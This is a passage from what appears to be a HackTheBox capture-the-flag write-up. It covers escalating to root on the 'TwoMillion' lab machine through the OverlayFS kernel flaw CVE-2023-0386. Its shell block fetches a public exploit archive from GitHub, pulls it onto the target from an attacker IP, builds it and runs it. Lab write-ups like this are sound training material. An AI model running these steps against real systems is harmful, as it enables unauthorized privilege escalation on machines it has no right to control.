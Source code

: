 ```bash
HTB Godfather
admin@2million:/dev/shm$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Google -> `linux 5.15.70-051570-generic exploit` ->
- [The OverlayFS vulnerability CVE-2023-0386: Overview, detection, and remediation](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/)
- [Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)](https://www.exploit-db.com/exploits/50808)

_A system is likely to be vulnerable if it has a kernel version lower than 6.2._

The `exploitdb` didn't work, so I moved to 2023 exploit.

```bash
└─$ curl -LO https://github.com/sxlmnwb/CVE-2023-0386/archive/refs/heads/master.zip
---
└─$ cd `mktemp -d`
└─$ curl 10.10.14.37/master.zip -sO
└─$ unzip master.zip
└─$ cd CVE-2023-0386-master
└─$ make all
└─$ tmux
└─$ ./fuse ./ovlcap/lower ./gc # Pane 1
└─$ ./exp                      # Pane 2
```

> **Note**: To use tmux inside a tmux session use handle twice. e.g.: `Ctrl+B+B + "` to split vertically.
{: .prompt-tip }

![Writeup-6.png](/assets/images/Machines/TwoMillion/Writeup-6.png)
